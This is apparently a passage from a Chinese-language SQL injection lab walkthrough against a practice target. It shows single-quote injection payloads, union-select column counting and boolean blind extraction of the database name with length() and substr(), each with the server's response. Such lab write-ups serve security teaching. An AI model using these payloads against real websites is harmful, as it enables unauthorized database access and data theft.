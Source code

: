 1、先确定为字符型注入且单引号闭合

```
?id=1' 
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

?id=1' --+
--> You are in...........
```

2、列数为3

```
?id=-1' union select 1,2,3,4 --+
--> The used SELECT statements have a different number of columns

?id=-1' union select 1,2,3 --+
--> You are in...........
```

3、使用联合注入没有回显，所以转向盲注或者报错注入

```
?id=-1' union select 1,2,database() --+
--> You are in...........
```

### **布尔盲注：**

页面根据条件真/假返回不同结果，说明存在布尔盲注，

```
?id=1' and 1=2 --+
--> 无回显

?id=1' and 1=1 --+
--> You are in...........
```

1. **获取数据库名**
   
   **猜长度**

```
?id=1' and length(database())=8 --+
--> You are in...........
页面正常，数据库名长度为8。
```

```
**逐字符猜解**（布尔注入的麻烦点就在这里，需要一个一个去猜，当然这是手动注入）
```

```
?id=1' and substr(database(),1,1)='s' --+
--> You are in...........
第1个字符为 s，猜测数据库名为security，可以一一验证。
```
